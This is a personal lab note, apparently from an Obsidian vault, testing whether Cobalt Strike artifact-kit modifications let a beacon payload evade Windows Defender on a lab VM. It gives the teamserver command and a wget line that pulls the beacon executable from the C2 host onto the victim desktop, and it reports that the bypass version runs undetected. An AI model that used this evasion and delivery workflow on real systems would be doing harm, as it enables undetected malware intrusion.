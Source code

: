 utilizing script in [[13. artifact-kit-switcher.py setup]] to test to see if we can just switch the `artifact kit` `patch.c` & `bypass-pipe.c` files for AV & Non settings

#### Test 1Artifact  (NO AV Bypass)
replaced `patch.c` and `bypass-pipe.c` with an original version of `4.11`cobalt strike
#### Synopsis
- this should be detected by defender
---------
Ended up using the script that did recompile `arsenal kit`
![[Pasted image 20250407163311.png]]
making sure `DEFENDER` is on in `GUARDIAN`
![[Pasted image 20250407163635.png]]
booting up `teams server`
```bash
┌──(root💀gobots)-[07Apr2025 20:38:11]-[/opt/cobaltstrike/server]
└─# ./teamserver 192.168.127.129 passphrase /opt/cobaltstrike/custom-cobalt/Profiles/custom.profile
```
starting `cobaltstrike`
```bash
┌──(root💀gobots)-[03Apr2025 23:11:03]-[/opt/cobaltstrike/client]
└─# ./cobaltstrike        
```
starting a `http listener`
![[Pasted image 20250407170006.png]]
generating `payloads`
![[Pasted image 20250407170028.png]]
saving to `/home/kali/malware` as `beacon_x64.exe`
![[Pasted image 20250407170122.png]]
navigating to `Site Management` -> `Host File` to host the file
![[Pasted image 20250407170213.png]]
dropping straight onto the dekstop of `Guardian` and it should be caught
```bash
wget http://192.168.127.129:80/test -UseBasicP -OutFile "C:\Users\blaster\Desktop\artkittest.exe" 
```
got caught by defender
![[Pasted image 20250407170333.png]]
and deleted
![[Pasted image 20250407170343.png]]
reverting `GUARDIAN VM` back to `Kinda Fresh` to start testing on the AV Bypass Version

-----------
#### Test 2 Artifact ( AV Bypass)
clearing old `cobaltstrike` data with `./clearteamserverdata`
![[Pasted image 20250407171255.png]]
running `artifact-kit-switcher2.py` with `2` option
![[Pasted image 20250407171608.png]]
starting `cobaltstrike` server
![[Pasted image 20250407171652.png]]
***Because its just replacing the  old `/opt/cobaltstrike/arsenal-kit/dist/arsenal_kit.cna` we shouldnt have to `load` or `unload` but this will test that as well ***

starting `listener` for `http`
![[Pasted image 20250407171856.png]]generating `http` payload and saving as `beacon_x64_2.exe`
![[Pasted image 20250407172023.png]]
`hosting` the file as `/test2`
![[Pasted image 20250407172338.png]]
making sure `DEFENDER` is `ON`
![[Pasted image 20250407172417.png]]
```bash
wget http://192.168.127.129:80/test2 -UseBasicP -OutFile "C:\Users\blaster\Desktop\artkittest.exe" 
```
![[Pasted image 20250407172501.png]]
double clicking `artkittest.exe` to see if beacon gets caught
works
![[Pasted image 20250407172804.png]]